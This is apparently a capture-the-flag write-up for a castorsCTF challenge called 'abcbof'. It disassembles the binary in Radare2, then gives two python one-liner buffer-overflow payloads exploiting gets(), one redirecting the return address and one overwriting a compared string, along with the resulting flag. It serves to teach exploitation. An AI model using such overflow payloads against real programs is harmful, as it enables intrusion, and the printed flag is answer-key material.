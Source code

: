 # abcbof

## Solution

We can disassemble the binary and list all functions using a tool like Radare2.

```
[greenavocado@greenavocado-pc abcbof]$ r2 abcbof
 -- Beer in mind.
[0x00400640]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400640]> afl
0x00400640    1 42           entry0
0x00400680    4 42   -> 37   sym.deregister_tm_clones
0x004006b0    4 58   -> 55   sym.register_tm_clones
0x004006f0    3 34   -> 29   sym.__do_global_dtors_aux
0x00400720    1 7            entry.init0
0x00400870    1 2            sym.__libc_csu_fini
0x00400727    5 102          sym.get_flag
0x00400620    1 6            sym.imp.fopen
0x00400630    1 6            sym.imp.exit
0x004005b0    1 6            sym.imp.putchar
0x004005f0    1 6            sym.imp.fgetc
0x004005d0    1 6            sym.imp.fclose
0x00400874    1 9            sym._fini
0x00400800    4 101          sym.__libc_csu_init
0x00400670    1 2            sym._dl_relocate_static_pie
0x0040078d    3 100          main
0x004005e0    1 6            sym.imp.printf
0x00400610    1 6            sym.imp.gets
0x00400600    1 6            sym.imp.strcmp
0x004005c0    1 6            sym.imp.puts
0x00400588    3 23           sym._init
[0x00400640]>
```

It's worth noting the ```sym.get_flag``` function, as it's likely our "win" function.

```
0x00400727    5 102          sym.get_flag
```

We can verify this by disassembling the function.

```asm
[0x00400640]> pdf @ sym.get_flag
            ; CALL XREF from main @ 0x4007d9
┌ 102: sym.get_flag ();
│           ; var uint32_t c @ rbp-0x9
│           ; var file*stream @ rbp-0x8
│           0x00400727      55             push rbp
│           0x00400728      4889e5         mov rbp, rsp
│           0x0040072b      4883ec10       sub rsp, 0x10
│           0x0040072f      488d35520100.  lea rsi, [0x00400888]       ; "r" ; const char *mode
│           0x00400736      488d3d4d0100.  lea rdi, str.flag.txt       ; 0x40088a ; "flag.txt" ; const char *filename
│           0x0040073d      e8defeffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│           0x00400742      488945f8       mov qword [stream], rax
│           0x00400746      48837df800     cmp qword [stream], 0
│       ┌─< 0x0040074b      7515           jne 0x400762
│       │   0x0040074d      bf01000000     mov edi, 1                  ; int status
│       │   0x00400752      e8d9feffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from sym.get_flag @ 0x400775
│      ┌──> 0x00400757      0fbe45f7       movsx eax, byte [c]
│      ╎│   0x0040075b      89c7           mov edi, eax                ; int c
│      ╎│   0x0040075d      e84efeffff     call sym.imp.putchar        ; int putchar(int c)
│      ╎│   ; CODE XREF from sym.get_flag @ 0x40074b
│      ╎└─> 0x00400762      488b45f8       mov rax, qword [stream]
│      ╎    0x00400766      4889c7         mov rdi, rax                ; FILE *stream
│      ╎    0x00400769      e882feffff     call sym.imp.fgetc          ; int fgetc(FILE *stream)
│      ╎    0x0040076e      8845f7         mov byte [c], al
│      ╎    0x00400771      807df7ff       cmp byte [c], 0xff
│      └──< 0x00400775      75e0           jne 0x400757
│           0x00400777      488b45f8       mov rax, qword [stream]
│           0x0040077b      4889c7         mov rdi, rax                ; FILE *stream
│           0x0040077e      e84dfeffff     call sym.imp.fclose         ; int fclose(FILE *stream)
│           0x00400783      bf00000000     mov edi, 0                  ; int status
└           0x00400788      e8a3feffff     call sym.imp.exit           ; void exit(int status)
[0x00400640]>
```

As you can see, it opens the flag file and reads it one character at a time using ```fgetc``` and printing it using ```putchar()```.

With this in mind, we note the address of the function, which is ```0x00400727```.
We then proceed to disassembling the ```main``` function.

```
[0x00400640]> pdf @ main
            ; DATA XREF from entry0 @ 0x40065d
┌ 100: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x110
│           ; var char *s2 @ rbp-0x10
│           0x0040078d      55             push rbp
│           0x0040078e      4889e5         mov rbp, rsp
│           0x00400791      4881ec100100.  sub rsp, 0x110
│           0x00400798      488d3df90000.  lea rdi, str.Hello_everyone__say_your_name: ; 0x400898 ; "Hello everyone, say your name: " ; const char *format
│           0x0040079f      b800000000     mov eax, 0
│           0x004007a4      e837feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x004007a9      488d85f0feff.  lea rax, [s]
│           0x004007b0      4889c7         mov rdi, rax                ; char *s
│           0x004007b3      b800000000     mov eax, 0
│           0x004007b8      e853feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004007bd      488d45f0       lea rax, [s2]
│           0x004007c1      4889c6         mov rsi, rax                ; const char *s2
│           0x004007c4      488d3ded0000.  lea rdi, str.CyberCastors   ; 0x4008b8 ; "CyberCastors" ; const char *s1
│           0x004007cb      e830feffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
│           0x004007d0      85c0           test eax, eax
│       ┌─< 0x004007d2      750a           jne 0x4007de
│       │   0x004007d4      b800000000     mov eax, 0
│       │   0x004007d9      e849ffffff     call sym.get_flag
│       │   ; CODE XREF from main @ 0x4007d2
│       └─> 0x004007de      488d3de00000.  lea rdi, str.You_lose       ; 0x4008c5 ; "You lose!" ; const char *s
│           0x004007e5      e8d6fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004007ea      b800000000     mov eax, 0
│           0x004007ef      c9             leave
└           0x004007f0      c3             ret
[0x00400640]>
```

Theres a call to ```strcmp()``` which compares "CyberCastors" to a string at ```rbp-0x10```.
If the compare succeeds, the function calls ```sym.get_flag```.
However, there's no function that writes to this address.

We can also see that the function calls ```gets()``` which does no bounds checks on user input, allowing us to write past buffers.
There are two methods we can use to exploit this call and print the flag.

### Overwriting the return address

We know from Radare2 that ```gets()``` will write our input to ```rbp-0x110```.
Therefore, writing 0x110+8 (280) bytes will overwrite ```rbp``` and another 8 bytes would over write the return address.
If we overwrite the return address with the address of the flag function, the program should print the flag.

```
python -c "import sys; sys.stdout.buffer.write(b'\x41' * 280 + b'\x27\x07\x40\x00\x00\x00\x00\x00')" | ./abcbof
```

Here's the output:

```
[greenavocado@greenavocado-pc abcbof]$ python -c "import sys; sys.stdout.buffer.write(b'\x41' * 280 + b'\x27\x07\x40\x00\x00\x00\x00\x00')" | ./abcbof
Hello everyone, say your name: You lose!
castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
```

### Overwriting ```rbp-0x10```

Instead of overwriting the return address, because the string being compared is located on under the address used by ```gets()```, we can also overwrite this variable with the correct string.

The start of the string being compared is located 0x100 (256) bytes after the address used by ```gets()```.
Therefore, if we fill the first variable by writing 256 arbitrary bytes, we can write into the address of the second variable.

```
python -c "print('A' * 256 + 'CyberCastors')" | ./abcbof
```

Here's the output:

```
[greenavocado@greenavocado-pc abcbof]$ python -c "print('A' * 256 + 'CyberCastors')" | ./abcbof
Hello everyone, say your name: castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
```

## Flag

```castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}```


